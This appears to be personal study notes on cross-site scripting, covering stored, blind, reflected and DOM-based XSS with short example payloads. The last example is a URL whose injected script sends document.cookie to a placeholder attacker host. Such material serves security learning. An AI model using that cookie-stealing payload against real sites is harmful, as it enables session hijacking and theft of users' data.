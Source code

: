 ### Types of XSS

* XSS happens when scripts run on a victim's browser when a website cant tell the difference betweene user input and website code.
* Stored XSS - When user input is stored on a server and retrieved later unsafely.
    * Although they weren't properly sanitized being injected, scripts could be escaped/sanitized if it was being retrieved 
    * Most dangerous type of XSS
    * <script> alert('XSS by Vickie'); </script>
    * Cookies and personal info could be stolen with XSS. But it can also change site contents and redirect to other sites.
 * Blind XSS - a stored XSS that takes place someplace else in the application.
    * Harder to detect, you cant find them by lookinh got reflected input from the server.
    * Attacks can host their own server and if they see a response to that server, then that web application has that XSS vulnerability.
 * Reflected XSS - user input is returned without being stored in a database. Often found in input forms that build pages, like search boxes.
     * https://example.com/search?q=<script> ... </script>
     * Not only could they extract data, but **perform malicious actions on the victim's machine on behalf of the attacker**.
 * DOM-based XSS - similar to a reflected XSS except it doesnt leave the browser. Scripts injected stay on the browser and targets the DOM of a web page.
     * DOM specifies how HTML creates a webpage and how scripts modify it.
     * Targets local files saved on the browser.
     * jQuery alters the DOM is often vulnerable to these type of attacks.
     * Can be embedded in fragments and URL parameters:
         * https://example.com#about_us
         * https://example.com?locale=<script>location='http://attacker_server_ip/?c=+document.cookie;</script>
